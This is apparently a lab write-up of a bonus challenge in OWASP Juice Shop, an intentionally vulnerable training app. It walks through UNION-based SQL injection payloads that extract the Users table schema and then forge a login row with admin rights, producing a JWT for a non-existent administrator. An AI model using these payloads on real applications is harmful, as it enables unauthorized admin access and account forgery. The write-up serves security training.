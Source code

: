 # Bonus Challenge: Generating a JWT Token for a Non-Existent User With Admin Privileges
*(It's not listed in the scoreboard as of 2019/08/21)*

## Description
I was attempting to complete the [Admin Registration (L3)](../../level-3#admin-registration) challenge, and while attempting that, I discovered a way to generate a JSON Web Token (JWT) for a non-existent user that had admin privileges.

## How?
### 1. Starting with SQL Injection
I was experimenting with SQL injection at the login page of the OWASP Juice Shop, and was looking at trying to log in with my user, but instead of matching my user info that was in the database, I would copy most of that, and change the `isAdmin` flag. The only way I could think to do this was using a `UNION` or `UNION ALL` in my SQL injection.

Early on, I ran into a lot of issues with the columns from the `UNION` not matching up, like below. I don't know the schema at this point (and I'm intentionally not looking it up because I'm trying to emulate an attacker).

<img src="images/nonexistent-user-admin-token-sql-union-error.png">

### 2. Getting the User Table Schema
I found that there was 2 ways get the schema. One of the explicitly tells you the schema, and the other you can infer the schema from.

#### 2a. Explicit: Get the Schema via SQL Injection
So, at this point, I needed to find how to get the schema. The way I initially did it was looking at if I could get the endpoint to output the schema as one of the fields. Since the errors I got were from SQLite, a few quick google searches told me how to [get the columns for a table](https://stackoverflow.com/a/54962853), and [concat them into a single value](https://stackoverflow.com/a/3926380). So, I started with this:

```
' UNION ALL SELECT * FROM (SELECT (SELECT group_concat(name) FROM PRAGMA_TABLE_INFO('Users')), null)--
```

For the one above, I got the column mismatch again, but the syntax was valid and no issues with functions not existing. I kept adding `null`s one at time to the end of it until that didn't happen. Eventually, I got up to 11 `null`s (in addition to the subquery `SELECT`).

**Initial Injection Payload - Column Names**
```
' UNION ALL SELECT * FROM (SELECT (SELECT group_concat(name) FROM PRAGMA_TABLE_INFO('Users')), null, null, null, null, null, null, null, null, null, null, null)--
```

Once I clicked the submit button, I got presenting with a 2FA page. Progress!

<img src="images/nonexistent-user-admin-token-2fa.png">

From there I looked at the token that I got back in the requests, and it was another JWT token.

**2FA JWT Token - Column Names**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOiJpZCx1c2VybmFtZSxlbWFpbCxwYXNzd29yZCxpc0FkbWluLGxhc3RMb2dpbklwLHByb2ZpbGVJbWFnZSx0b3RwU2VjcmV0LGlzQWN0aXZlLGNyZWF0ZWRBdCx1cGRhdGVkQXQsZGVsZXRlZEF0IiwidHlwZSI6InBhc3N3b3JkX3ZhbGlkX25lZWRzX3NlY29uZF9mYWN0b3JfdG9rZW4iLCJpYXQiOjE1NjU5Njk1ODEsImV4cCI6MTU2NTk4NzU4MX0.FSDMBOs2C20Eqb-c_PghsbQ7dUiHpwQe5qrLsllp2W41Wg6MVpFXPTMY0gB0HGFI4Deeun6Iw7B5a2yy5Pb339wXfZLCHisXpmfS08i2pxsd_N70wvzqUZtrjALvardSB3_FCh9St1c5oAQOuqlq7EDGvFymFtiPdNz8-4DR6BE
```

Once I decoded it, I found the schema below.

<img src="images/nonexistent-user-admin-token-column-name-token.png">

Neat. Though I realized that the schema it looked EXACTLY like the user data in the a normal JWT token from this application, which brings me to the other way to figure out the schema.

#### 2b. Inference: Look at a Normal JWT Token
In the [Password Strength (L2)](../../level-2#password-strength) challenge, I found the admin account's password in the JWT token, and this is what the JWT token looks like when it is decoded.

**Normal JWT Token for a Logged-In User**
<img src="../../level-2/images/2-admin-password-jwt.png">

Hey, it's literally all of the table fields as the SQL injection way in 2a. Let's move on.

### 3. Generating the Non-Existent User's Token with Admin Privileges

So, at this point, I took the fields in the schema list, and filled them **in the same order** so the `UNION` would match up with the column list from `SELECT * FROM Users` login SQL query. You also need to switch `true` and `false` values to 1 and 0, respectively (but maybe that's a relic from my days using MSSQL). After you update the `isAdmin` value to `1` (or `true`), it should look like this:

**Injection Payload - Generate Admin Token**
```
' UNION SELECT * FROM (SELECT 15 as 'id', '' as 'username', 'someone@something.io' as 'email', 'b4448762fc877c2d57b2c9723118d264' as 'password', 1 as 'isAdmin', '172.16.189.1' as 'lastLoginIp' , 'default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '2019-08-16 14:14:41.644 +00:00' as 'createdAt', '2019-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--
```

And here is the SQL query that the server will run (formatted and prettified)
```sql
SELECT * 
FROM  users 
WHERE  email = '' 

UNION ALL

SELECT * 
FROM ( 
  SELECT 15                          AS 'id', 
  ''                                 AS 'username', 
  'someone@something.io'             AS 'email', 
  'b4448762fc877c2d57b2c9723118d264' AS 'password', 
  1                                  AS 'isAdmin',
  '172.16.189.1'                     AS 'lastLoginIp' , 
  'default.svg'                      AS 'profileImage', 
  ''                                 AS 'totpSecret', 
  1                                  AS 'isActive', 
  '2019-08-16 14:14:41.644 +00:00'   AS 'createdAt', 
  '2019-08-16 14:33:41.930 +00:00'   AS 'updatedAt', 
  NULL                               AS 'deletedAt'
)
--AND password = 'b4448762fc877c2d57b2c9723118d264' AND deletedAt IS NULL 
```

My injection payload worked! I got to the main search page and I was logged in as my *faux* user. My user did exist at this point, but this all works even if the user does not exist. I took at look at my JWT token in my cookie / application settings.

**Non-Existent User JWT Token**
```
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MTUsInVzZXJuYW1lIjoiIiwiZW1haWwiOiJzb21lb25lQHNvbWV0aGluZy5pbyIsInBhc3N3b3JkIjoiYjQ0NDg3NjJmYzg3N2MyZDU3YjJjOTcyMzExOGQyNjQiLCJpc0FkbWluIjp0cnVlLCJsYXN0TG9naW5JcCI6IjE3Mi4xNi4xODkuMSIsInByb2ZpbGVJbWFnZSI6ImRlZmF1bHQuc3ZnIiwidG90cFNlY3JldCI6IiIsImlzQWN0aXZlIjp0cnVlLCJjcmVhdGVkQXQiOiIyMDE5LTA4LTE2IDE0OjE0OjQxLjY0NCArMDA6MDAiLCJ1cGRhdGVkQXQiOiIyMDE5LTA4LTE2IDE0OjMzOjQxLjkzMCArMDA6MDAiLCJkZWxldGVkQXQiOm51bGx9LCJpYXQiOjE1NjU5NzE5NDcsImV4cCI6MTU2NTk4OTk0N30.OhfHXsnCteRB-LSuTxucIeV59paLJs7gzjqi5DMm0-84UIuvmIXdzChDsLGsfgzYXSxkTwtyzWpla8z-xAsxVnKLiNUr7noQde6yklK8Pw1YXLKFcz2Olga7Yra5ezfIWv3-OxKTUxZgdQsoi7kdOl2wWtH8bJxUXsGUTStkre0
```

Once you decode that token, it looks like this:

<img src="images/nonexistent-user-admin-token-decoded.png">

Boom! I'm an admin that doesn't exist! To finish this off, I went to the administration page to find out if this worked, and it does! Yay!

<img src="images/nonexistent-user-admin-token-admin-page.png">

